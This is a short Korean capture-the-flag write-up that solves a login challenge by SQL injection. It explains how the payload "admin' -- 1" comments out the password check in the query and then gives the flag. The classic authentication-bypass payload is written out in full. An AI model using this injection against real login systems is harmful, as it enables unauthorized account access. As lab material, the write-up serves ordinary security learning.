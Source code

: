 |

## 문제 풀이

```sql
SELECT * FROM user WHERE username = '{username}' AND password = '{password}'
```

|

```sql
SELECT * FROM user WHERE username = 'admin' AND password = '{password}'
```

username이 admin이 되어야함

|

```sql
SELECT * FROM user WHERE username = 'admin' -- AND password = '{password}'
```

username = admin인 것이 필요하므로 필요 없는 password는 주석 처리

주의해야 할 점이, 주석 처리를 하기 위해서는 주석 뒤에 최소 한 개의 공백이 존재해야함

```sql
admin' -- 1
```

실제 공격 코드는 이러한 형태가 됨

뒤에 1을 쓰는 이유는 공백이 있음을 명확하게 하기 위해서임. 아닐 수도 있음ㅋ

password는 주석처리 될 운명이기 때문에 아무거나 넣어도 됨 

|

|

|

## Exploit

```python
username: "admin' -- 1"

password: "1"
```

### FLAG

```
K0{y3s_1'm_4dm1n!!}
```

|

---

